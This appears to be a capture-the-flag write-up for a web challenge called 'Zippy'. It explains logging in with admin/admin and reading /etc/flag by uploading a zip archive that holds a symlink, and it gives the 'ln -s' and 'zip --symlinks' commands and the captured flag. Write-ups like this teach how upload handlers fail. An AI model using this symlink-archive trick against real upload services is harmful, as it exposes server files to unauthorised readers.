 # Zippy

> web

Author: [whitex](https://github.com/najeh-halawani)

Can You Break The Upload Zip Function, And Get The Flag?


## Writeup
## Recon

Checking source code, you'll get that the login creds are the same of admin.gif file, so login with ```admin/admin```

![login page]()

You'll be redirected to an upload zip file section....after understanding how the challenge work, u should know how to solve it.

![upload section]()

Okay, so the flag is in /etc/flag.. the challenge will unzip the zip file and cat * inside the upload dir... so let's make a symlink with flag path then make an archive of it :D 

```
ln -s /etc/flag flag

zip --symlinks flag.zip flag 

upload zip file ==> Got The Flag

```

```
Zip contents: cyberhack{#symlink_is_za_best}
```

![Getting the flag]()
